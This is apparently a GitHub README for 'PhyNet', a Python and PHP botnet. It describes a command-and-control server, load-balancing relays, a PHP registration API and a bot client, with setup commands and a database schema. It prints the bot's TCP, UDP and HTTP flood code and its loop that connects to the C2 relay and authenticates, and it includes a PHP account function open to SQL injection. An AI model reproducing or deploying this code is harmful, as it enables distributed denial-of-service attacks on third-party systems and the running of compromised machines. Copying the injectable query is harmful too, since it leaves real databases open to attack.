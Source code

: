# PhyNet
 phynet is a botnet coded in python and php, wich is using relays for balancing bots and uses only one cnc.  
 phynet is an old project in bad languages for a botnet and actually not working, you may want to uses oldest versions, you can consider this code as a POC of a easy balanced botnet

# CNC
Def: "Command and Control" (C&C) servers are centralized machines that are able to send commands and receive outputs of machines part of a botnet. Anytime attackers who wish to launch a DDoS attack can send special commands to their botnet's C&C servers with instructions to perform an attack on a particular target, and any infected machines communicating with the contacted C&C server will comply by launching a coordinated attack.   

My cnc works with a relay (which will relay the commands to the bots to avoid an overload of the cnc server), it also works with an api which will be mainly used to register the relay servers to be able to dispatch the bots on the server having the least load, the api will also be used to login on the cnc

for setup the [cnc](https://github.com/4lxprime/PHYBOT/blob/main/SERVER/cnc.py):  
```batch
py cnc.py 8080    
```

# RELAY
for setup the [relay](https://github.com/4lxprime/PHYBOT/blob/main/SERVER/relay.py):  
```batch
py relay.py 5000
```

# API
for setup the [api](https://github.com/4lxprime/PHYBOT/tree/main/SERVER/api/v1), you need a database:
## API Database:
```sql
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
START TRANSACTION;
SET time_zone = "+00:00";

DROP TABLE IF EXISTS `gkeys`;
CREATE TABLE IF NOT EXISTS `gkeys` (
  `gkey` text COLLATE utf8_unicode_ci NOT NULL,
  `ogkey` text COLLATE utf8_unicode_ci NOT NULL,
  `relay` text COLLATE utf8_unicode_ci NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

DROP TABLE IF EXISTS `relays`;
CREATE TABLE IF NOT EXISTS `relays` (
  `relay_ip` text COLLATE utf8_unicode_ci NOT NULL,
  `relay_bots` int NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

DROP TABLE IF EXISTS `users`;
CREATE TABLE IF NOT EXISTS `users` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` text COLLATE utf8_unicode_ci NOT NULL,
  `password` text COLLATE utf8_unicode_ci NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM AUTO_INCREMENT=2 DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'root', '2b64f2e3f9fee1942af9ff60d40aa5a719db33b8ba8dd4864bb4f11e25ca2bee00907de32a59429602336cac832c8f2eeff5177cc14c864dd116c8bf6ca5d9a9');
COMMIT;
```
(the password encryption is sha512+sha256)   
In php you can use this function for generate an password
```php
function create_acc($usr, $pass) {

    global $conn;

    $pass=hash('sha256', $pass);
    $pass=hash('sha512', $pass);
    
    $sql="INSERT INTO users (username, password) VALUES ('$usr', '$pass')";
    $result=mysqli_query($conn, $sql);

    if ($result==TRUE) {

        echo json_encode("ok", JSON_PRETTY_PRINT);

    } else {

        echo json_encode("error", JSON_PRETTY_PRINT);

    }

}
```
Next, you need an php server for copy the api file ([SERVER/api/v1](https://github.com/4lxprime/PHYBOT/tree/main/SERVER/api/v1))  
After you have to configure the database in the php script ([SERVER/api/v1/db_conn/db_connn.php](https://github.com/4lxprime/PHYBOT/blob/main/SERVER/api/v1/db/db_conn.php))  
```php
$sname="localhost"; //database address
$unmae="root"; //database username
$password=""; //database password
$db_name="phybot"; //database name
$conn=mysqli_connect($sname, $unmae, $password, $db_name);

if (!$conn) {
    
	echo json_encode("db_connection_failed", JSON_PRETTY_PRINT);
}
```
You have to change your api url in:  
> the zomb ([CLIENT/zomb.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/bot/zomb.py)) `API_URL: str = "http://localhost/phybot/api/v1"` (L28), 
> the cnc config ([SERVER/cnc.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/modules/config.py)) `api_url="http://localhost/phybot/api/v1"` (L42)
> and the relay config ([SERVER/relay.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/modules/config.py)) `api_url="http://localhost/phybot/api/v1"` (L41)

# ZOMB
you may want to compile the bot with nuitka (create a fast executable file because the python code is transpiled to c and compiled)
but the simple command for running it is:
```batch
py zomb.py
```
## ZOMB DDOS Code: 
```python
def dos(
    s: sock,
    attack: tuple[str, int],
    tps: int,
    method: str,
) -> None: # start dos attack with socket and attack target
    tps += int(time()) # set the attack time with actual time + attack time

    match method:
        case "TCP":
            log("TCP")
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(bytes(PAYLOAD, "utf-8"))
                except: pass

        case "UDP":
            log("UDP")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass

        case "HTTP":
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(f'GET / HTTP/1.1\r\nHost: {attack[0]}\r\nUser-Agent: {rand_ua()}\r\nConnection: keep-alive\r\n\r\n'.encode())

                except: s.close()

        case _:
            log("Unknown")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass
```
## The ZOMB Socket Connection
```python
c2: sock = sock(AF_INET, SOCK_STREAM)
c2.setsockopt(SOL_SOCKET, SO_KEEPALIVE, 1)

while 1:
    try:
        RELAY_ADDR: str = rget(f"{API_URL}/dispatch.php?urlkey={URL_KEY}", timeout=5000).text

        raddr.clear()
        raddr.append(RELAY_ADDR)

        c2.connect((RELAY_ADDR, RELAY_PORT))

        log((RELAY_ADDR, RELAY_PORT))

        while 1:
            data: str = c2.recv(1024).decode()

            if 'Username' in data:
                c2.send('BOT'.encode())
                log("send bot")
                break

        while 1:
            data: str = c2.recv(1024).decode()

            if 'Password' in data:
                c2.send('\xff\xff\xff\xff\75'.encode('cp1252'))
                log("send bot string")
                break

        break
    except: sleep(240)
```
